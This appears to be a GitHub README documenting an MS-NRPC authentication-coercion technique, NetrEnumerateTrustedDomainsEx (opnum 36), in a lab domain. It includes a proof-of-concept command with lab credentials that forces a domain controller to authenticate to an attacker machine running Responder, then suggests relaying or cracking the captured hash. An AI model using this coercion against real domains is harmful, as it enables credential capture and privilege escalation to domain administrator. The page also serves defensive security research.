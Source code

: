 # MS-NRPC - Remote call to NetrEnumerateTrustedDomainsEx (opnum 36)

## Summary

+ **Protocol**: [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f)

+ **Protocol UUID**: 12345678-1234-abcd-ef00-01234567cffb

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\PIPE\NETLOGON`

+ **Function name**: [`NetrEnumerateTrustedDomainsEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/c3e9870a-0943-4d45-be94-edb9419a1c11)

+ **Function operation number**: `36`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\NETLOGON` and bind to the desired [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol (with uuid `12345678-1234-abcd-ef00-01234567cffb` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\NETLOGON` This pipe is connected to the protocol [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) and allows to call RPC functions of this protocol. We will then call the remote [`NetrEnumerateTrustedDomainsEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/c3e9870a-0943-4d45-be94-edb9419a1c11) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrEnumerateTrustedDomainsEx('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrEnumerateTrustedDomainsEx(
   [in, unique, string] LOGONSRV_HANDLE ServerName,
   [out] PNETLOGON_TRUSTED_DOMAIN_ARRAY Domains
 );
```

## References

+ Documentation of protocol [MS-NRPC]: Netlogon Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f

+ Documentation of function `NetrEnumerateTrustedDomainsEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/c3e9870a-0943-4d45-be94-edb9419a1c11